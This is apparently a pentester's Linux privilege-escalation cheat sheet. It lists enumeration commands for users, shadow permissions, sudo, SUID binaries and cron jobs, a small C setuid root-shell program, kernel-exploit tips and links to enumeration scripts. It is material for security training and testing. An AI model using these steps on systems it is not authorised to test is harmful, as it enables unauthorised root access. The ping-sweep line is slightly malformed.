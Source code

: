   
# Enum  
## Quick Enum
    hostname; ip addr;    
    whoami; id   
    uname -r   
    cat /etc/passwd | grep /bin/bash   
    ls -l /etc/shadow   
    sudo -l  
    
    netstat -antp; arp -a 
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " "
## Scripts
    run [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) with increasing run levels, [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [linenum](https://github.com/rebootuser/LinEnum) 
## Checklists
[Linux Priv Esc Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  
  
# Exploits
## Cronjobs    
look for scripts you can write to or exploit using [gtfobins](https://gtfobins.github.io/) 

    cat /etc/cronjobs   
    crontab -l    
## SUID Binaries
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null               
    ps aux | grep “^root”                   
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }
## Kernel Exploits 
    uname -a  
    cat /etc/*-release
No compilers on host: use gcc-multilib -m32 (32 bit OS) or -m64 (64 bit OS) then upload 
# File Transfer 
    which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null 
    

# Resources
## Cheat Sheets 
[g0tmi1k Linux Priv Esc Checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  

## Learn More
